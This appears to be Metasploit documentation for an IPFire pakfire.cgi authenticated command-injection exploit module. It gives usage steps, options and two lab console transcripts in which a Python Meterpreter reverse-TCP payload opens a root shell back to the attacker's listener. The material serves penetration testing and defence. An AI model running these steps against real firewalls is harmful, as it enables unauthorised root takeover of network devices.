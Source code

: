 ## Vulnerable Application

  [IPFire 2.25 (Core Update 156)](https://downloads.ipfire.org/releases/ipfire-2.x/2.25-core156/ipfire-2.25.x86_64-full-core156.iso)
  [IPFire 2.21 (Core Update 126)](https://mirror.csclub.uwaterloo.ca/ipfire/releases/ipfire-2.x/2.21-core126/ipfire-2.21.x86_64-full-core126.iso)

  This module exploits an authenticated command injection vulnerability in the
  `/cgi-bin/pakfire.cgi` web page of IPFire devices running versions 2.25 Core Update 156
  and prior to execute arbitrary code as the `root` user.

## Verification Steps

  1. Start msfconsole
  1. Do: `use exploit/linux/http/ipfire_pakfire_exec`
  1. Do: `set username <USERNAME OF THE ADMINISTRATIVE USER TO AUTHENTICATE TO THE WEB PORTAL AS>`
  1. Do: `set password <PASSWORD FOR admin USER ON THE WEB PORTAL>`
  1. Do: `set rhost <TARGET IP>`
  1. Do: `set lhost <YOUR IP>`
  1. Do: `exploit`
  1. You should get a shell as the `root` user.

## Options

  **USERNAME**
  Username of the administrative user you are authenticating to the web portal as.

  **PASSWORD**
  Password for the administrative user you are authenticating to the web portal as.

## Scenarios

### IPFire 2.21 (Core Update 126)
```
msf > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf exploit(linux/http/ipfire_pakfire_exec) > set RHOSTS 172.29.202.191
RHOSTS => 172.29.202.191
msf exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.21 (Core Update 126)
[*] Backing up backup.pl to /tmp/1TiE8...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.191
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.191:38336) at 2021-06-08 14:05:41 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.86-ipfire #1 SMP Tue Dec 11 08:36:08 GMT 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 28379 created.
Channel 1 created.
sh: cannot set terminal process group (27956): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
```

### IPFire 2.25 (Core Update 156)

```
msf > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf exploit(linux/http/ipfire_pakfire_exec) > set RHOST 172.29.202.157
RHOST => 172.29.202.157
msf exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.25 (Core Update 156)
[*] Backing up backup.pl to /tmp/8Yndo...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.157
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.157:37192) at 2021-06-08 14:02:03 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.212-ipfire #1 SMP Tue May 4 09:02:54 GMT 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 10179 created.
Channel 1 created.
sh: cannot set terminal process group (10136): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.0#
```
